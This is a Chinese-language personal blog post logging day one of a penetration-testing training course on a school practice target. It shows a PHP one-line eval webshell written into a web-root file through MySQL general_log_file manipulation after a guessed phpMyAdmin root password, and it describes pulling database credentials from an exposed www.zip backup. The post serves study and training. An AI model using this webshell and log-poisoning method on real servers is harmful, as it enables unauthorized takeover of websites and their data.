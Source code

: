 ```yaml
---
layout:     post
title:      "实训记录-周一"
subtitle:   "Day-1 漏洞攻击与Web安全实战"
date:       2025-04-21 12:00:00
author:     "hangyangjun"
header-img: "img/training.png"
tags:
    - 笔记
    - 记录
    - 学习
    - 实训
    - 安全
    - 渗透测试
---
```

# 1 一句话木马
### phpMyAdmin
>phpMyAdmin 是一个以PHP为基础，以Web-Base方式架构在网站主机上的MySQL的数据库管理工具，让管理者可用Web接口管理MySQL数据库。借由此Web接口可以成为一个简易方式输入繁杂SQL语法的较佳途径，尤其要处理大量资料的汇入及汇出更为方便。其中一个更大的优势在于由于phpMyAdmin跟其他PHP程序一样在网页服务器上执行，但是您可以在任何地方使用这些程序产生的HTML页面，也就是于远端管理MySQL数据库，方便的建立、修改、删除数据库及资料表。也可借由phpMyAdmin建立常用的php语法，方便编写网页时所需要的sql语法正确性。  

### 过程
在学校靶站开了个环境之后,使用御剑扫一下后台  

扫描到 phpMyAdmin 的后台比较好搞  
然后猜的密码:*root/root*(很无语啊)  

进到后台里之后进到sql查询界面  
用日志上传php的一句话木马,当然得先开启**日志**功能  

**`select '<?php @eval($_POST[1]);?>'`**

但由于在linux中mysql数据库的日志与web目录的用户权限是分开的，我们此时还无法通过目录地址访问该日志文件。  
修改日志文件存储路径和文件名的语句为  
`set global general_log_file=' C:\phpStudy'`  

寻找网站在服务器上的绝对地址（浏览可能包含该信息的文件）  

执行：  
`set global general_log_file='C:\\phpStudy\\PHPTutorial\\WWW\\shell.php';`  

不要斜杠搞反（反斜杠\\这样也行）  
将日志文件的存储路径改为站点根目录下的 shell.php 文件  
重新写入php一句话木马  
之后在浏览器中访问shell.php，查看是否能够访问成功  
使用webshell管理工具连接创建的shell.php文件，控制服务器  
菜刀密码是1，基于一句话木马中POST[1]  

# 2 构造url
遇事不决先扫描  
扫描到后台和一个www.zip网址  
这个网址是网站的备份文件，下载下来后可以找到config文件，内有sql链接的用户名密码  
